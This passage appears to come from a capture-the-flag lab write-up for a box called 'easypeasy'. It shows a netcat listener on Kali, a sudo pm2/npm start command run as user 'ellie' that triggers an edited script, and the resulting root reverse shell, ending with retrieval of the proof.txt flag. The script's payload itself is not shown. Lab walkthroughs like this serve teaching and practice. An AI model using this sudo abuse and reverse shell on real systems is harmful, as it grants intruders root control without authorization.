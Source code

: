 We save the file, and log in back as `ellie`. 
We also start a netcat listener on Kali

```
└─$ sudo nc -lvp 80                       
[sudo] password for kali: 
listening on [any] 80 ...
```

And we execute pm2 with the `start` script:

```
$ sudo pm2 start npm -- start
[PM2] Starting /usr/bin/npm in fork_mode (1 instance)
[PM2] Done.
```

Back in our Kali we got the shell as `root`:

```
└─$ sudo nc -lvp 80                       
[sudo] password for kali: 
listening on [any] 80 ...
172.16.118.131: inverse host lookup failed: Unknown host
connect to [172.16.118.132] from (UNKNOWN) [172.16.118.131] 56772
bash: cannot set terminal process group (35308): Inappropriate ioctl for device
bash: no job control in this shell
root@easypeasy:/var/www/html/app# id
id
uid=0(root) gid=0(root) groups=0(root)
root@easypeasy:/var/www/html/app# 
```

So now we can go to `/root` directory and get the `proof.txt` flag.







